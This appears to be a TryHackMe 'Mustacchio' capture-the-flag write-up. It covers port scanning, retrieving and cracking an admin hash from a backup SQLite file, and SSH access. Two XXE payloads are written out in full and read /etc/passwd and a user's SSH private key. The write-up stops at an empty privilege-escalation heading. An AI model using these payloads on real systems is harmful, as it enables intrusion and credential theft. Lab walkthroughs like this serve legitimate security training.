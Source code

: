 ------------------

### CTF: TRYHACKME
### LAB: Mustacchio

-------------------

![image](https://github.com/user-attachments/assets/b33c41e4-76fc-4120-956a-9aeb427d278a)


-------------------

### Reconnaissance

- Rustscan's output

      ❯ rustscan -a 10.10.158.4 -- -sC -sV
      .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      🌍HACK THE PLANET🌍
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 10.10.158.4:22
      Open 10.10.158.4:80
      Open 10.10.158.4:8765
      [~] Starting Script(s)
      [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
      
      [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-15 09:33 EDT
      NSE: Loaded 156 scripts for scanning.
      NSE: Script Pre-scanning.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 09:33
      Completed NSE at 09:33, 0.00s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 09:33
      Completed NSE at 09:33, 0.00s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 09:33
      Completed NSE at 09:33, 0.00s elapsed
      Initiating Ping Scan at 09:33
      Scanning 10.10.158.4 [2 ports]
      Completed Ping Scan at 09:33, 0.16s elapsed (1 total hosts)
      Initiating Parallel DNS resolution of 1 host. at 09:33
      Completed Parallel DNS resolution of 1 host. at 09:33, 0.01s elapsed
      DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
      Initiating Connect Scan at 09:33
      Scanning 10.10.158.4 [3 ports]
      Discovered open port 22/tcp on 10.10.158.4
      Discovered open port 8765/tcp on 10.10.158.4
      Discovered open port 80/tcp on 10.10.158.4
      Completed Connect Scan at 09:33, 0.16s elapsed (3 total ports)
      Initiating Service scan at 09:33
      Scanning 3 services on 10.10.158.4
      Completed Service scan at 09:33, 11.55s elapsed (3 services on 1 host)
      NSE: Script scanning 10.10.158.4.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 09:33
      Completed NSE at 09:33, 5.23s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 09:33
      Completed NSE at 09:33, 0.60s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 09:33
      Completed NSE at 09:33, 0.01s elapsed
      Nmap scan report for 10.10.158.4
      Host is up, received syn-ack (0.15s latency).
      Scanned at 2024-08-15 09:33:02 EDT for 17s
      
      PORT     STATE SERVICE REASON  VERSION
      22/tcp   open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
      | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2WTNk2XxeSH8TaknfbKriHmaAOjRnNrbq1/zkFU46DlQRZmmrUP0uXzX6o6mfrAoB5BgoFmQQMackU8IWRHxF9YABxn0vKGhCkTLquVvGtRNJjR8u3BUdJ/wW/HFBIQKfYcM+9agllshikS1j2wn28SeovZJ807kc49MVmCx3m1OyL3sJhouWCy8IKYL38LzOyRd8GEEuj6QiC+y3WCX2Zu7lKxC2AQ7lgHPBtxpAgKY+txdCCEN1bfemgZqQvWBhAQ1qRyZ1H+jr0bs3eCjTuybZTsa8aAJHV9JAWWEYFegsdFPL7n4FRMNz5Qg0BVK2HGIDre343MutQXalAx5P
      |   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
      | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCEPDv6sOBVGEIgy/qtZRm+nk+qjGEiWPaK/TF3QBS4iLniYOJpvIGWagvcnvUvODJ0ToNWNb+rfx6FnpNPyOA0=
      |   256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
      |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGldKE9PtIBaggRavyOW10GTbDFCLUZrB14DN4/2VgyL
      80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
      | http-robots.txt: 1 disallowed entry 
      |_/
      |_http-server-header: Apache/2.4.18 (Ubuntu)
      | http-methods: 
      |_  Supported Methods: GET HEAD POST OPTIONS
      |_http-title: Mustacchio | Home
      8765/tcp open  http    syn-ack nginx 1.10.3 (Ubuntu)
      |_http-server-header: nginx/1.10.3 (Ubuntu)
      |_http-title: Mustacchio | Login
      | http-methods: 
      |_  Supported Methods: GET HEAD POST
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


- Port 80|`http` reveals a web page

![image](https://github.com/user-attachments/assets/047a0826-3340-425a-878e-fe80208de044)

- Port 8765 shows an admin login page

![image](https://github.com/user-attachments/assets/0ccdc4e4-0290-4060-95de-c164d7f628f3)

- Checking the port 80's `custom/js` directory listing  reveals a `user.bak` file

![image](https://github.com/user-attachments/assets/084d64d6-96f6-48d4-8f93-bd4d154c1296)

- Checking the file type with `file <filename>` shows that it is an sqlite3 db

![image](https://github.com/user-attachments/assets/88e40da0-f3f5-4371-96ac-0b4674bf27cb)

### Reading the file with sqlite3 

- I used the `sqlite3` binary to open the db, and `.open <db's name>` to open it

![image](https://github.com/user-attachments/assets/3ed90e5d-6f56-472a-9a30-d42a0c58c506)

- I guessed the table and tried `select * from users;` which worked and showed a username and hash

![image](https://github.com/user-attachments/assets/b382fda7-3da0-45ad-94cc-1645d67ed2e6)


### Cracking the admin's hash with crackstation

- I cracked the hash with [Crackstation.net](https://crackstation.net/)

![image](https://github.com/user-attachments/assets/8805f1c1-c41a-4889-a3ea-cbb1aa87350e)

- Admin access

![image](https://github.com/user-attachments/assets/63748d4b-f958-47e7-929e-e9aed80c393b)

### XML EXTERNAL ENTITY to file read

- I checked the source code and found that the textbox allows only xml input.There is also an hint that `user:barry` has a private ssh key. We can test for XXE and try to read Barry's ssh private key.

![image](https://github.com/user-attachments/assets/2bd6788e-42ed-4087-92de-293e3e35c173)

- The file highlighted shows the xml syntax for the textbox

  ![image](https://github.com/user-attachments/assets/fb075e29-8e18-47a9-ad0e-8abec4a34943)

- We will be testing this payload to see if we can read the `/etc/passwd` file

      <?xml version="1.0" encoding="UTF-8"?>
      <!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
      <comment>
        <name>Joe Hamd</name>
        <author>Barry Clad</author>
        <com>&example;</com>
      </comment>

- It worked

![image](https://github.com/user-attachments/assets/d426b918-4937-49d7-b25d-24e3a4fc4072)

- The ssh key should be in this file path `file:///home/barry/.ssh/id_rsa`
      
      <?xml version="1.0" encoding="UTF-8"?>
      <!DOCTYPE foo [<!ENTITY example SYSTEM "/home/barry/.ssh/id_rsa"> ]>
      <comment>
        <name>Joe Hamd</name>
        <author>Barry Clad</author>
        <com>&example;</com>
      </comment>

- Now we have the key

![image](https://github.com/user-attachments/assets/f11aac76-05f7-4259-8437-88e15db350c0)

- I tried to ssh to the host as user `barry` with the private key but it presented a need for passphrase

![image](https://github.com/user-attachments/assets/b4fb4e65-2569-4640-af7b-341a2886ea7c)

- I cracked it with john the ripper but I used `--show` because I have cracked the hash.

![image](https://github.com/user-attachments/assets/2dbacc73-c045-415b-b977-126b0e101b69)

- SSH Access

![image](https://github.com/user-attachments/assets/c71fdd23-148b-40ad-9972-d79fa6988efa)

### Privilege Escalation with path hijacking


  









